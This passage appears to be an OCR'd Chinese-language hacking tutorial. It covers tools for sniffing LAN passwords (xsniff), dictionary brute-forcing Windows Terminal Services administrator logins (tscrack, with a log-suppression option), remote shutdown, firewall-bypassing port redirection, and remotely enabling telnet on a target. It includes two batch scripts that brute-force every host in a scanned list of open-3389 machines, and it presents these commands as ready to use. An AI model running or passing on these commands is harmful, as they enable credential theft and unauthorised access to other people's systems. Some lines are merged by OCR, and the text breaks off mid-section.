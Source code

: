 > 可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
> 参数说明
> -tcp 输出TCP数据报
> -udp 输出UDP数据报
> -icmp 输出ICMP数据报
> -pass 过滤密码信息
> -hide 后台运行
> -host 解析主机名
> -addr IP地址 过滤IP地址
> -port 端口 过滤端口
> -log 文件名 将输出保存到文件
> -asc 以ASCII形式输出
> -hex 以16进制形式输出
> 用法示例
> xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中
> xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
> 终端服务密码破解: tscrack.exe
> 参数说明
> -h 显示使用帮助
> -v 显示版本信息
> -s 在屏幕上打出解密能力
> -b 密码错误时发出的声音
> -t 同是发出多个连接（多线程）
> -N Prevent System Log entries on targeted server
> -U 卸载移除tscrack组件
> -f 使用－f后面的密码
> -F 间隔时间（频率）
> -l 使用－l后面的用户名
> -w 使用－w后面的密码字典
> -p 使用－p后面的密码
> -D 登录主页面
> 用法示例
> tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码
> tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户
> @if not exist ipcscan.txt goto noscan
> @for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
> nscan
> @echo 3389.txt no find or scan faild
> (①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
> 3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
> @if not exist tscrack.exe goto noscan
> @tscrack %1 -l administrator -w pass.dic >>rouji.txt
> :noscan
> @echo tscrack.exe no find or scan faild
> (②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
> hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
> 其它
> Shutdown.exe
> Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 20>  DOS命令中有详细介绍。）
> fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
> fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
> Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP> Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
> OpenTelnet.exe (远程开启telnet工具)
> opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务> 就可用telnet ip 连接上对方。
> NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
> ResumeTelnet.exe (OpenTelnet附带的另一个工具)
> resumetelnet.exe IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。
> FTP命令详解
> FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台> P下载，那么就必须学习FTP指令。
> FTP的命令行格式为：
> ftp -v -d -i -n -g [主机名] ，其中